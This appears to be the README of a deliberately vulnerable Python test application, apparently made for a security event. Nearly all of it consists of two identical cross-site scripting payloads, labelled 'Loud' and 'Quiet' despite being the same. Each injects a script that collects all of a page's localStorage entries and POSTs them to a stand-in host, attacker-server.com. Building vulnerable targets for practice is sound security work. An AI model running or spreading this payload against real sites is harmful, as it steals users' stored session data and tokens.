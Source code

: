# whathestack2024-vuln-python
Python vulnerable instance for testing

Loud Attack command:
"><script>(function(){var d={};for(var i=0;i<localStorage.length;i++){var k=localStorage.key(i);d[k]=localStorage.getItem(k);}alert('Local Storage Data: '+JSON.stringify(d));fetch('https://attacker-server.com/receive-data',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify(d)});})();</script>

Quiet Attack command:
"><script>(function(){var d={};for(var i=0;i<localStorage.length;i++){var k=localStorage.key(i);d[k]=localStorage.getItem(k);}alert('Local Storage Data: '+JSON.stringify(d));fetch('https://attacker-server.com/receive-data',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify(d)});})();</script>